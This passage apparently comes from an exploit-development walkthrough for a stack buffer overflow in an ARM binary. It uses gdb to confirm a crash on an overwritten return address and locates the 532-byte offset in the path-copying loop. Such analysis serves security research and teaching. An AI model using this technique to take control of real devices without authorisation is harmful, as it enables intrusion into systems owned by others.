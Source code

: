This should give us a sigsegv fault which is the ones at the `CCCC`.

```
Program received signal SIGSEGV, Segmentation fault.
=> 0x63636362:	Error while running hook_stop:
Cannot access memory at address 0x63636362
0x63636362 in ?? ()
```

As Position-Independent Executables (PIE) security feature is not present, it is easy to breakpoint at fixed location.

First, set a breakpoint at location `0x44454`. These three lines are the ones that is doing the copying of data from `vPath` to `path_string` buffer

```asm
=> 0x44454:	ldr	r3, [r0]
   0x44458:	lsl	r7, r7, #1
   0x4445c:	ldrsh	r2, [r3, r7] <-- Should see a lower case 'a' because of *((_WORD *)*_ctype_tolower_loc() + path_1)
   0x44460:	strb	r2, [sp, r8] <--- The path_string buffer is here 
   0x44464:	add	r8, r8, #1  <-- Where the i increment occurs
```

Step over till `0x44460` and check that `i r $r2` gives 0x61 since this points to our first ‘a’ character in the path.

```
(gdb) i r r2
r2             0x61	97
```

Next, set a conditional breakpoint to stop before writing letter ‘c’ into the buffer. The condition set to break after the 532th iteration. This is how many bytes to write before starting to write the ‘c’s which is in this case the return address.

```
(gdb) break *0x44454 if $r8 == 532
Breakpoint 4 at 0x44454
(gdb) continue
```

Checking the stack after running,

```
=> 0x44454:	ldr	r3, [r0]
   0x44458:	lsl	r7, r7, #1
   0x4445c:	ldrsh	r2, [r3, r7]
   0x44460:	strb	r2, [sp, r8]
   0x44464:	add	r8, r8, #1
   0x44468:	ldrb	r7, [r5, r8]
   0x4446c:	cmp	r7, #0
   0x44470:	bne	0x44424
   0x44474:	mov	r0, sp
   0x44478:	ldr	r1, [pc, #268]	; 0x4458c

Breakpoint 4, 0x00044454 in ?? ()
(gdb) i r $r8
r8             0x214	532
(gdb) x/3s $sp
0x7e992e28:	'a' <repeats 200 times>...
0x7e992ef0:	'a' <repeats 56 times>, 'b' <repeats 144 times>...
0x7e992fb8:	'b' <repeats 132 times>, "0\367"
```
